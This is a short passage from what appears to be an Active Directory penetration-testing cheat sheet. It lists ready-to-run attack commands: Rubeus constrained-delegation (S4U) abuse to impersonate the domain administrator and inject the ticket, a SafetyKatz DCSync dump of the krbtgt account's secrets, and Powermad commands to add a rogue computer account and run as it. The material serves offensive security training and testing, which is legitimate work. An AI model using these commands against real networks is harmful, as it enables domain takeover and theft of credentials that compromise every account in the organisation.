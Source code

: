 #### Abuse Rubeus:
```
Rubeus.exe hash /password:Password@123! /user:<USER> /domain:<DOMAIN>

Rubeus.exe s4u /user:<USER> /rc4:<NTLM HASH> /impersonateuser:administrator /msdsspn:ldap/<FQDN DC> /domain:<DOMAIN> /ptt

C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

## Computeraccount
- https://github.com/Kevin-Robertson/Powermad
- Low privilege if not added to the domain admins group

#### Add computeraccount to the domain
```
New-MachineAccount -Domain <DOMAIN> -MachineAccount <NAME OF MACHINE TO ADD> -DomainController <IP> -Verbose
```

### Runas computeraccount
```
runas /netonly /user:<DOMAIN>\<COMPUTERACCOUNTNAME> powershell
```
